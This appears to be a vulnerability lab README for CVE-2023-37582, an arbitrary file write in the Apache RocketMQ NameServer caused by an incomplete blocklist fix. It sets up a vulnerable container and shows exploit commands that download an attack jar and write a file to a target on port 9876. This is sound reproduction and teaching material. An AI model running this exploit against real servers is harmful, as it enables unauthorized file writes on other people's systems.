

# Apache RocketMQ NameServer Arbitrary File Write Vulnerability (CVE-2023-37582)

[中文版本(Chinese version)](README.zh-cn.md)

Apache RocketMQ is a distributed messaging and streaming platform with low latency, high performance and reliability, trillion-level capacity and flexible scalability.

In RocketMQ versions 5.1.1 and below, there exists an arbitrary file write vulnerability in the NameServer component. The vulnerability exists in the configuration update functionality of RocketMQ's NameServer component. By sending an `UPDATE_NAMESRV_CONFIG` command to the NameServer, an attacker can modify the `configStorePath` configuration item and its content, leading to arbitrary file write.

This vulnerability arises from an incomplete fix for [CVE-2023-33246](https://github.com/vulhub/vulhub/tree/master/rocketmq/CVE-2023-33246). In addressing CVE-2023-33246, the official team established a blocklist of configuration items that cannot be modified. However, the patch mistakenly designated the blocklist as `configStorePathName`, when it should have been `configStorePath`, leading to this outcome.

References:

- <https://github.com/apache/rocketmq/pull/6843>
- <https://drun1baby.top/2023/11/21/CVE-2023-37582-Apache-RocketMQ-RCE-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/>
- <https://github.com/Malayke/CVE-2023-37582_EXPLOIT>

## Vulnerable Environment

Execute the following command to start a RocketMQ NameServer 5.1.0:

```shell
docker compose up -d
```

After the environment is started, the RocketMQ NameServer will listen on port 9876.

## Exploit

Use this simple [exploit project](https://github.com/vulhub/rocketmq-attack) to reproduce the vulnerability and write arbitrary file.

```shell
wget https://github.com/vulhub/rocketmq-attack/releases/download/1.1/rocketmq-attack-1.1-SNAPSHOT.jar
java -jar rocketmq-attack-1.1-SNAPSHOT.jar AttackNamesrv --target your-ip:9876 --path "/tmp/success" --content "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
```

After execution, you can verify that the file has been written successfully:

```shell
cat /tmp/success
```

The content "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" should be present in the file.


